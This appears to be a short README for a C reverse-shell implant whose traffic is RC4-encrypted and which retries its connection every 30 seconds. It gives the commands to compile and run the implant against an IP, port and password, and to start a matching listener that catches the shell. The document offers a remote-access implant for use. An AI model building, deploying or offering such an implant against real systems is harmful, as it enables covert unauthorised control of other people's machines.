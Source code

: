 # RC4 encrypted reverse shell

The reverse shell attempts to make a connection every 30 seconds.
Traffic is RC4 encrypted with the key provided.

## Useage

### Reverse Shell
```
gcc -o implant reverse-shell.c
./implant 127.0.0.1 58008 MY-SUPER-SECRET-PASSWORD
```

### Shell Catcher
```
gcc -o server ./server.c
./server 58008 MY-SUPER-SECRET-PASSWORD 
```
